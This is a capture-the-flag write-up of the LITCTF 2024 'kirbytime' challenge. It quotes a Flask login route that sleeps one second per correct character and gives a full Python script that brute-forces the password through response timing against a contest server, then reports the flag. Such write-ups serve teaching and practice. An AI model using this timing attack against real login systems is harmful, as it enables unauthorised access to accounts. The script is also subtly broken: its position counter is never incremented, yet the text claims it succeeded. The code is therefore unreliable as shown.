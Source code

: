 # web/kirbytime

**218 solves / 125 points**

*Auther: Stephanie*

Welcome to Kirby's Website.

*Given: [kirbytime.zip](https://github.com/LeonGurin/My-CTF-Writeups/tree/main/LITCTF%202024/kirbytime/kirbytime.zip)*

___

We're given the source-code of a flask application.

The website prompts us to enter a 7-letter password that is probably the flag itself.

The code tells us that whenever we guess a right letter the server would wait 1 second:

```py
    if len(password) != 7:
        return render_template('login.html', message="you need 7 chars")
    for i in range(len(password)):
        if password[i] != real[i]:
            message = "incorrect"
            return render_template('login.html', message=message)
        else:
            time.sleep(1)
    if password == real:
        message = "yayy! hi kirby"
```

We could use the time the response takes to guess every letter sequentially by measuring the time a wrong password gets a reply and a password with the first letter correct, their difference should be 1 second.

Each letter we get right we will wait more and more time and the next letter will add 1 second to the right guess timer.

```py
import requests
import string
import time

# The URL of the login endpoint
url = 'http://34.31.154.223:51749/'

# The characters to use in the brute force attack
charset = string.ascii_letters + string.digits

# Function to test a password and get the response
def test_password(password):
    try:
        start = time.time()
        response = requests.post(url, data={'password': password})
        elapsed_time = time.time() - start
        return response.text, elapsed_time
    except requests.RequestException as e:
        print(f"Request failed: {e}")
        return "", 0

# Function to perform the brute force attack
def brute_force():
    # kBySlaY
    tmp = ["a"] * 7
    sleep_time = 1
    i = 0
    while i <= 6:
        print(f"Brute forcing position {i + 1}")
        for char in charset:
            tmp[i] = char
            curr = ''.join(tmp)
            print(f"Testing password: {curr}")

            response, timer = test_password(curr)
            print(f"Time: {timer}")

            if "yayy! hi kirby" in response:
                print(f"Password found: {curr}")
                return curr

            # If the response time exceeds the threshold, consider the character correct
            if timer > sleep_time:  # Adjust this threshold based on server behavior
                print(f"Character at position {i + 1} confirmed: {char}")
                sleep_time += 1
                break

        tmp[i] = char  # Update the confirmed character for the current position
        print(f"Character at position {i + 1} confirmed: {tmp[i]}, tmp = {''.join(tmp)}")
    
    print('Password not found')
    return None

if __name__ == '__main__':
    found_password = brute_force()
    if found_password:
        print(f'Cracked password: {found_password}')
    else:
        print('Failed to crack the password')
```

After a few minutes we get the password:

> LITCTF{kBySlaY}


